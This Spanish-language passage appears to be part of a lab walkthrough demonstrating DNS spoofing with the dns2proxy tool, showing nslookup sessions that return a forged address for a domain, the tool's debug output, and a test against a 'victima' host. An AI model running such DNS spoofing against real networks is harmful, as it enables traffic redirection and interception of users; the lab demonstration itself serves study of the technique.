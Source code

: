 
La respuesta falsificando la resolución de nombre
```shell
$ nslookup uqbarun.github.io 192.168.1.101               
Server:         192.168.1.101
Address:        192.168.1.101#53

Name:   uqbarun.github.io
Address: 142.250.78.100
** server can't find uqbarun.github.io: NXDOMAIN
```

Y la salida de depuración de la herramienta
```shell
$ sudo python dns2proxy.py 
...
serving a request.
('C', '\xbb')
msg id = CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC�
Client IP: 192.168.1.101
request is uqbarun.github.io. IN A
Doing the A query....
1 questions.
q name = uqbarun.github.io
Query = uqbarun.github.io A
Adding fake IP = 142.250.78.100
waiting requests.
serving a request.
('\x91', '_')
msg id = ����������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������_
Client IP: 192.168.1.101
request is uqbarun.github.io. IN AAAA
waiting requests.
```

### Primera prueba de Dns2proxy remota

```shell
victima$ ip a s enp3s0f0 | grep inet
    inet 192.168.1.101/24 brd 192.168.1.255 scope global dynamic noprefixroute enp3s0f0
```
La respuesta falsificando la resolución de nombre
```shell
victima$ nslookup uqbarun.github.io 192.168.1.101               
Server:         192.168.1.101
Address:        192.168.1.101#53

Name:   uqbarun.github.io
Address: 142.250.78.100
** server can't find uqbarun.github.io: NXDOMAIN
```
